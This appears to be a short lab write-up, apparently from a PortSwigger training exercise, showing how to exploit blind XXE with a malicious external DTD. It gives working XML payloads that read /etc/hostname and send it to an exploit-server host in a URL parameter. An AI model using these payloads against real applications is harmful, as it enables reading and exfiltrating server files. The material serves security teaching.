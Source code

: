 # Exploiting [blind XXE](https://portswigger.net/web-security/xxe/blind) to exfiltrate data using a malicious external DTD

Craft the evil DTD in the exploit server:

```XML
<!ENTITY % resource SYSTEM "file:///etc/hostname">
<!ENTITY % LoadOOBEvent "<!ENTITY &#x25; OOB SYSTEM 'https://exploit-0a2300f30401953385f7030101a400dd.exploit-server.net/exploit/?p=%resource;'>">
```


![[evilDTD.png]]

Trigger the OOB interaction from the application request:

```XML
<!DOCTYPE message [
	<!ENTITY % EvilDTD SYSTEM "https://exploit-0a2300f30401953385f7030101a400dd.exploit-server.net/exploit">
	%EvilDTD;
	%LoadOOBEvent;
	%OOB;
]>
```

![[XXE/Labs/Blind XXE OOB Parameter/images/trigger.png]]

Lastly, check the server log to find the contents of the file in the `p` GET parameter (have in mind the DTD was crafted to make the application send the data this way).

![[XXE/Labs/Blind XXE OOB Parameter/images/exploited-1.png]]
